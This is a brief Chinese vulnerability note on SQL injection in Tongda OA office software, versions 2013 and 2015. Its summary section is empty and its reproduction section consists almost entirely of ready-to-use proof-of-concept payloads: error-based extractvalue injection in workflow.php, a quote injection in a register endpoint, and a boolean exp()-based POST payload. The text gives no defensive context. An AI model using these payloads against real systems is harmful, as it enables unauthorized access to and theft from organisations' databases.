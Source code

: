 ```yaml
---
title: 通达oa sql注入
id: zhfly3337
---
```


# 通达oa sql注入

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

poc

```
http://0-sec.org/general/mytable/intel_view/workflow.php?MAX_COUNT=15 procedure analyse(extrac
tvalue(rand(),concat(0x3a,database())),1)&TYPE=3&MODULE_SCROLL=false&MODULE_ID=55&
MODULE_ID=Math.random 
```

```
http://0-sec.org/general/document/index.php/recv/register/turn `post(_SERVER=&rid=1’)` 
```

```
http://0-sec.org/general/document/index.php/recv/register/insert  

post:   
title)values("'"^exp(if(1%3d2,1,710)))#=1&_SERVER= 
```